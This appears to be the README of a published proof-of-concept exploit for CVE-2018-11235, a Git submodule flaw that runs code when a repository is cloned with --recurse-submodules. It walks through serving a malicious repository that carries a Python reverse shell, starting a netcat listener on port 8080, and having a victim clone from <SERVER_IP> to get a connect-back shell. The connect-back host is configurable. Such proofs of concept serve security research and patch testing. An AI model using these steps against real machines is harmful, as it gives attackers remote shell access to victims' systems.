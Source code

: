 Clone & Pwn
===========

**Original:**  https://github.com/Rogdham/CVE-2018-11235  
**Author:**    Alejandro Caceres &lt;mhaase@hyperiongray.com&gt;,
               Mark E. Haase &lt;mhaase@hyperiongray.com&gt;  
**Date:**      2018-06-04  
**CVE:**       [CVE-2018-11235](https://nvd.nist.gov/vuln/detail/CVE-2018-11235)  
**Advisory:**  https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/  
**Tested on:** Ubuntu 18.04, Git 2.17.0, Python 2.7

Demo
----

![demo of exploit running](demo.gif)

Discussion
----------

CVE-2018-11235, which we call "Clone & Pwn", creates a malicious Git repository
that exploits a bug in the Git client. When the repo is cloned using the
`--recurse-submodules` flag, arbitrary code is executed on vulnerable versions 
of Git.

We have adapted an example exploit [written by
Rogdham](https://github.com/Rogdham/CVE-2018-11235) to include a simple Python
reverse shell payload. Rogdham's exploit is expected to be published to a Git
server, but the major Git hosts like GitHub and GitLab will filter out malicious
repositories. Therefore, this exploit runs a Git daemon locally to simplify
deployment. By default, the payload connects back to `127.0.0.1:8080`, but you
can modify the `payload.py` settings `CONNECT_BACK_HOST` and `CONNECT_BACK_PORT`
to connect somewhere else.

On the server, run the exploit script:

    $ bash run.sh
    [*] Creating repository...
    [*] Executing git daemon...
    [*] Start your netcat listener, then run this on the client:

        $ git clone --recurse-submodules git://<SERVER_IP>/repo

Also on the server, run a netcat listener:

    $ nc -nvlp 8080
    listening on [any] 8080 ...

Then on a vulnerable client machine, run:

    $ git clone --recurse-submodules git://<SERVER_IP>/repo

You should receive a connect back shell in your netcat listener.
